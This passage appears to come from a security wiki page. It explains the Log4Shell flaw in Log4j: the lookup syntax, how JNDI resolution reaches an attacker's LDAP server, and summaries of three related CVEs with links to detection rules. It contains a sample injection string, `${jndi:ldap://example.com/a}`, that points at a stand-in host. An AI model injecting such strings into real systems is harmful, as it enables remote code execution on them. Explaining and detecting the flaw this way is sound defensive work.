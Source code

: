 ## Log4Shell Vulnerability

The vulnerability is introduced in Log4j because it supports a [[https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution|**special syntax**]] in the form `${prefix:name}` where `prefix` is one of a number of different [[https://logging.apache.org/log4j/2.x/manual/lookups.html|**Lookups**]] where `name` should be evaluated. For example, `${java:version}` is the current running version of Java.

[[https://issues.apache.org/jira/browse/LOG4J2-313|**LOG4J2-313**]] introduced a `jndi` Lookup feature. This feature enables the retrieval of variables through JNDI. Typically, the key is automatically prefixed with `java:comp/env/`. However, if the key itself includes a **":"**, this default prefix is not applied.

With a **: present** in the key, as in `${jndi:ldap://example.com/a}` there’s **no prefix** and the **LDAP server is queried for the object**. And these Lookups can be used in both the configuration of Log4j as well as when lines are logged.

Therefore, the only thing needed to get RCE a **vulnerable version of Log4j processing information controlled by the user**. And because this is a library widely used by Java applications to log information (Internet facing applications included) it was very common to have log4j logging for example HTTP headers received like the User-Agent. However, log4j is **not used to log only HTTP information but any input** and data the developer indicated.

## Overview of Log4Shell-Related CVEs

### [[https://nvd.nist.gov/vuln/detail/CVE-2021-44228|CVE-2021-44228]] **\[Critical]**

This vulnerability is a critical **untrusted deserialization flaw** in the `log4j-core` component, affecting versions from 2.0-beta9 to 2.14.1. It allows **remote code execution (RCE)**, enabling attackers to take over systems. The issue was reported by Chen Zhaojun from Alibaba Cloud Security Team and affects various Apache frameworks. The initial fix in version 2.15.0 was incomplete. Sigma rules for defense are available ([[https://github.com/SigmaHQ/sigma/blob/master/rules/web/web_cve_2021_44228_log4j_fields.yml), [Rule 2](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web_cve_2021_44228_log4j.yml)|Rule 1]].

### [[https://nvd.nist.gov/vuln/detail/CVE-2021-45046|CVE-2021-45046]] **\[Critical]**

Initially rated low but later upgraded to critical, this CVE is a **Denial of Service (DoS)** flaw resulting from an incomplete fix in 2.15.0 for CVE-2021-44228. It affects non-default configurations, allowing attackers to cause DoS attacks through crafted payloads. A [[https://twitter.com/marcioalm/status/1471740771581652995|tweet]] showcases a bypass method. The issue is resolved in versions 2.16.0 and 2.12.2 by removing message lookup patterns and disabling JNDI by default.

### [[https://nvd.nist.gov/vuln/detail/CVE-2021-4104|CVE-2021-4104]] **\[High]**

Affecting **Log4j 1.x versions** in non-default configurations using `JMSAppender`, this CVE is an untrusted deserialization flaw. No fix is available for the 1.x branch, which is end-of-life, and upgrading to `log4j-core 2.17.0` is recommended.
